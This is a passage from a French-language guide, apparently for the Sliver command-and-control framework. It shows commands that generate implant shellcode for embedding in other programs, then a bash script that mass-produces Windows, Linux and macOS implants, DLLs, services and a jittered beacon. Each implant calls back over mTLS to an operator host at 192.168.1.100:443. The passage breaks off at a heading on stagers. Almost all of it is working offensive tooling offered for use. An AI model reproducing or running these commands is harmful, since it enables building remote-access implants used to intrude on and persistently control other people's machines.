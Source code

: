 ### 8.3 Payload embarqué (embed)
```bash
# Génération de shellcode pour intégration
generate --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format shellcode \
    --save /tmp/payload.bin

# Le shellcode peut ensuite être intégré dans d'autres applications
xxd -i /tmp/payload.bin > payload_shellcode.h
```

---

## 9. Scripts d'Automatisation

### 9.1 Script de génération complète
```bash
#!/bin/bash
# Script automatisé de génération de payloads

# Configuration
LHOST="192.168.1.100"
SAVE_DIR="/tmp/silver_payloads"
mkdir -p $SAVE_DIR

# Fonction de génération
generate_payload() {
    local os=$1
    local arch=$2  
    local format=$3
    local filename=$4
    
    echo "Génération: $filename"
    generate --mtls $LHOST:443 \
        --os $os \
        --arch $arch \
        --format $format \
        --save "$SAVE_DIR/$filename"
}

# Génération massive
echo "=== Génération de la suite de payloads ==="

# Windows
generate_payload "windows" "amd64" "exe" "windows_x64.exe"
generate_payload "windows" "386" "exe" "windows_x86.exe"
generate_payload "windows" "amd64" "shared" "windows_x64.dll"
generate_payload "windows" "amd64" "service" "windows_service.exe"

# Linux  
generate_payload "linux" "amd64" "elf" "linux_x64"
generate_payload "linux" "386" "elf" "linux_x86"

# macOS
generate_payload "darwin" "amd64" "macho" "macos_x64"

echo "=== Génération des beacons ==="
generate beacon --mtls $LHOST:443 --os windows --arch amd64 --format exe --jitter 60s --save "$SAVE_DIR/beacon_win64.exe"

echo "=== Génération des stagers ==="
```